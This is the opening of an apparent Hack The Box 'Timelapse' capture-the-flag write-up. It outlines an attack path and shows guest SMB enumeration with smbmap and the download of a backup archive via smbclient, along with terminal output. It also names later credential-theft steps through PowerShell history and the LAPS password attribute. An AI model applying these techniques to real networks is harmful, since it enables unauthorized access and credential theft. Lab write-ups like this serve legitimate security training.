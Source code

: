 # Attack path
1. [Gain initial foothold with private key discovered in SMB share](#gain-initial-foothold-with-private-key-discovered-in-smb-share)
2. [Escalate to `svc_deploy` using credentials discovered in PowerShell history file](#escalate-to-svc_deploy-using-credentials-discovered-in-powershell-history-file)
3. [Escalate to `Administrator` user using credentials read from `ms-Mcs-AdmPwd` attribute](#escalate-to-administrator-user-using-credentials-read-from-ms-mcs-admpwd-attribute)

### Gain initial foothold with private key discovered in SMB share

#### Add `timelapse.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ echo "$TARGET timelapse.htb" | sudo tee -a /etc/hosts
10.129.227.113 timelapse.htb
```

#### Enumerate SMB
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ smbmap -u guest -H timelapse.htb --no-banner
[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.129.227.113:445      Name: timelapse.htb             Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Shares                                                  READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share 
[*] Closed 1 connections 
```

#### Exfiltrate `winrm_backup.zip` archive
```
┌──(magicrc㉿perun)-[~/attack/HTB Timelapse]
└─$ smbclient \\\\timelapse.htb\\Shares                                            
Password for [WORKGROUP\magicrc]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Jun  4 02:37:04 2025
  ..                                  D        0  Wed Jun  4 02:37:04 2025
  Dev                                 D        0  Mon Oct 25 21:40:06 2021
  HelpDesk                            D        0  Mon Oct 25 17:48:42 2021

                6367231 blocks of size 4096. 1302311 blocks available
smb: \> cd Dev
smb: \Dev\> ls
  .                                   D        0  Mon Oct 25 21:40:06 2021
  ..                                  D        0  Mon Oct 25 21:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 17:46:42 2021

                6367231 blocks of size 4096. 1302311 blocks available
smb: \Dev\> get winrm_backup.zip 
getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip (18.9 KiloBytes/sec) (average 18.9 KiloBytes/sec)
```